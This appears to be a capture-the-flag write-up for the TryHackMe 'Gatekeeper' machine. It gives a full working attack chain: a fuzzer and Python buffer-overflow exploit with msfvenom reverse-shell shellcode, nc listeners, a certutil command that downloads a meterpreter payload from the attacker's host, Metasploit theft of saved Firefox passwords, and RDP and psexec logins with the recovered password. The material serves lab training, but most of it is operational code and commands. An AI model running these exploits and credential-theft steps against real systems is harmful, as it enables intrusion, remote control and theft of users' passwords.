




---
---

# THM - Gatekeeper

NMAP







```bash
smbmap -H 10.10.59.86 -u Guest
```


```bash
smbclient //10.10.59.86/Users -U Guest
```


```bash
get gatekeeper.exe
```


- When running gatekeeper with wine


Since gatekeeper.exe is a Windows executable (and Wine isn't great) - I created a new Windows 7 VM and created an internal network between the Windows VM and Kali.

**Windows 7 - 192.168.0.2**

**Kali - 192.168.0.3**

- I installed:

```bash
VC_redist (32&64bit)

python 2.7 (32bit)

Immunity Debugger

Mona script
```

on the Windows VM

- And copied gatekeeper.exe over to it

- The open port from NMAP scan 31337 (elite) is the port that gatekeeper.exe is using

- We can test if we can crash it by creating a fuzzer

- The fuzzer will send increasingly long strings comprised of As. If the fuzzer crashes the server with one of the strings, the fuzzer should exit with an error message. Make a note of the largest number of bytes that were sent

- Create a python script to fuzz (fuzzing.py):

```python
#!/usr/bin/env python3

import socket
import time
import sys

ip = "192.168.0.2"
port = 31337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100

while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.recv(1024)

            print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
            s.send(bytes(string, "latin-1"))
            s.recv(1024)

    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)

    string += "A" * 100
    time.sleep(1)

```

- Run the script:


- Crashed at **100 bytes**

**<u>Exploit (POC - On MY Windows VM):</u>**

- We know that we can crash the executable - so we might be able to do a buffer overflow and get a reverse shell

- Create another script called exploit.py:

```python
import socket

ip = "VICTIM_IP_Gatekeeper"
port = 31337

prefix = "OVERFLOW1 "
offset = 0  # You should set this to the correct offset value
overflow = "A" * offset

retn = ""     # Return address (in little endian format)
padding = ""  # Any NOPs or alignment bytes
payload = ""  # Your shellcode or malicious payload
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")

```

- Run the following command to generate a cyclic pattern of a length **400 bytes longer** that the string that crashed the server (change the -l value to this):

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

```
**-l = 100 + 400**


- Copy the output and **place it into** the **payload variable** of the exploit.py script


- On Windows, in Immunity Debugger, re-open the gatekeeper.exe again using the same method as before, and click the red play icon to get it running.

You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications)

- On Kali, run the modified exploit.py script:

```bash
python3 exploit.py

```
- The script should crash the gatekeeper.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

```bash
!mona findmsp -distance 500

```
- Mona should display a log window with the output of the command.
If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view)

In this output you should see a line which states:

```bash
EIP contains normal pattern : ... (offset XXXX)

```


**Offset: 136**

- Update your exploit.py script and **set the offset variable to this value** (was previously set to 0)
- **Set the payload variable** to an **empty string** again
- **Set** the **retn variable to "BBBB"**


- Restart gatekeeper.exe in Immunity (Debug --\> Restart)
- Run the modified exploit.py script again

- The EIP register should now be overwritten with the 4 B's (e.g. 42424242)


**<u>Finding Bad Characters</u>**

- Generate a bytearray using mona, and exclude the null byte (\x00) by default (**\x00 is always a bad char**)

- Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration above, then the location should be **C:\mona\gatekeeper\bytearray.bin**)

```bash
!mona bytearray -b "\x00"

```


- Now generate a string of bad chars that is identical to the bytearray
- The following python script can be used to generate a string of bad chars from \x01 to \xff:
(\x00 is excluded)

```python
for x in range(1, 256):
    print("\x" + "{:02x}".format(x), end='')
```


- Update your exploit.py script and **set** the **payload variable to the string of bad chars** the script generates


- Restart gatekeeper.exe in Immunity (Debug --\> Restart) and Run
- Run the modified exploit.py script again

- Make a note of the address to which the ESP register points and use it in the following mona command:

```bash
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <address>

```


**ESP: 022219F8**


- A popup window should appear labelled "mona Memory comparison results"
If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file

- **Not all of these might be badchars. Sometimes badchars cause the next byte to get corrupted** as well, or even effect the rest of the string

- As we can see from the results above - **Only two bad chars are present \x00 and \x0a**
- We know that \x00 has been excluded already since it's a bad char, so the only one left to **remove** is **\x0a**

- **Generate a new bytearray in mona**, specifying the **new badchar along with \x00**:

```bash
!mona bytearray -b "\x00\x0a"
```
(Add one at a time, if there were many)


- Then **update the payload variable** in your **exploit.py** script and remove the new badchar as well
(Remove one at a time, if there were many)


\# \x0a removed

- Immunity Debugger --\> Debug --\> Restart ----\> Run
- Run the exploit.py again


ESP: 007119F8

- Compare the results:

```bash
!mona compare -f C:\mona\gatekeeper\bytearray.bin -a <ESP_address>

```


- Mona shows us that the normal shellcode is unmodified - which is what we want

**<u>Finding a Jump Point</u>**

- With gatekeeper.exe either running or in a crashed state, run the following mona command, making sure to **update** the **-cpb option** with all the **badchars you identified** (including \x00):

```bash
!mona jmp -r esp -cpb "\x00\x0a"

```


- This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified
The results should display in the "Log data" window (use the Window menu to switch to it if needed)

- Choose an address and update your exploit.py script, **setting the "retn" variable to the address**, **written backwards** (since the system is **little endian**)
For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit




**ESP Address: 080414C3**

**Little Endian: \xC3\x14\x04\x08**


**<u>Generate Payload</u>**

- Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

```
- Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:


**<u>Prepend NOPs</u>**

- Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```bash
padding = "\x90" * 16

```


**<u>Exploit</u>**

- With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell

- Start nc:

```bash
nc -lnvp 4444

```
- Restart gatekeeper.exe in Immunity and Run
- Run the modified exploit.py script again


- The buffer overflow worked - got a reverse shell

<u>Complete exploit.py script:</u>


**<u>Exploit (THM Machine):</u>**

- We have the exact payload to use to exploit and get a reverse shell back

- We just need to change the IP address from my local to my tun0 address - and generate new shellcode:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.24.66 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f c

```
- Copy the newly generated shellcode into the payload variable in exploit.py


- Change the ip variable in exploit.py


- Set up nc listener:

```bash
nc -lnvp 4444

```
- Run exploit.pywhoami


Boom! Got it!

- Complete exploit.py:


**<u>Priv Esc:</u>**

```bash
whoami /all

```


```bash
systeminfo

```


- From a cmd.exe prompt, we can use the following wmic command to find any services executing from non-standard locations:

```bash
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\"

```


- Checking the permissions of the folder VMware:

```bash
icacls "C:\Program Files\VMware"

```


- Actually looking back in the user desktop directory:


- We see Firefox.lnk meaning that the machine is running firefox

- In msfconsole:
Search for firefox and look for a POST/ - since we've already got a shell

```bash
post/multi/gather/firefox_creds

```


- First we need to get a meterpreter session:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.24.66 LPORT=5555 -f exe -o reverse.exe
python -m http.server
certutil.exe -urlcache -f http://10.8.24.66:8000/reverse.exe reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter_reverse_tcp; set lhost 10.8.24.66; set lport 5555; exploit"
```
Run reverse.exe


- Background session

- Now use the post exploit:

```bash
use post/multi/gather/firefox_creds

```
- Set the session




```bash
cd /home/hokage/.msf4/loot/

```
- We need to decrypt these firefox files:
<https://github.com/unode/firefox_decrypt>

Download firefox_decrypt.py

- Before running - we need to rename the loot files


- Now run the decrypter:

```bash
python3 firefox_decrypt.py ~/.msf4/loot

```


- RDP:

```bash
xfreerdp /u:mayor /p:8CL7O1N78MdrCIsV /cert:ignore /v:10.10.198.224

```
Read root.txt

- Or psexec:

```bash
psexec.py gatekeeper/mayor:8CL7O1N78MdrCIsV@10.10.198.224 cmd.exe

```